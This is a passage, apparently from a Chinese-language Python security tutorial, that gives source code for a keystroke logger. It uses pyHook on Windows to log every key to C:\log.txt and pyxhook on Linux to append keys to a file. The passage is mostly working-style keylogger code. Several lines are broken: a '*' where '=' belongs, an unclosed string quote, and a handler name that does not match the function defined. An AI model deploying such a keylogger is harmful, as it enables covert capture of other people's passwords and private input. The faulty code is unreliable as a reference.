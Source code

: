```py
file_log='C:\\log.txt' 

```

现在我们可以定义处理每个键盘事件的函数。在这里，我们可以利用日志模块来记录每个字符：

```py
def OnKeyboardEvent(event): 
    logging.basicConfig(filename*file_log, level=logging.DEBUG, format='%(message)s') 
    chr(event.Ascii) 
    logging.log(10,chr(event.Ascii)) 
    return True 

```

在这里，我们实例化`pyhook`管理器：

```py
hooks_manager = pyHook.HookManager() 

```

在每次按键时调用键盘事件函数：

```py
hooks_manager.KeyDown = OnKeyboardEvent 
hooks_manager.HookKeyboard() 
pythoncom.PumpMessages() 

```

这将在 Windows 系统中工作。要在 Linux 中使用，我们必顈依赖另一个模块：`pyxhook`。您可以从[`github.com/JeffHoogland/pyxhook`](https://github.com/JeffHoogland/pyxhook)获取此模块。

使用`pyxhook`，您可以重写前面的脚本以在 Linux 中使用：

```py
import pyxhook 
file_log=/home/rejah/Desktop/file.log' 
def OnKeyboardEvent(event): 
   k = event.Key 

    if k == "space": k = " " 

   with open(file_log, 'a+') as keylogging: 
      keylogging.write('%s\n' % k)   

#instantiate HookManager class 
hooks_manager = pyxhook.HookManager() 

#listen to all keystrokes 
hooks_manager.KeyDown=OnKeyPress 

#hook the keyboard 
hooks_manager.HookKeyboard() 

#start the session 
hooks_manager.start() 

```
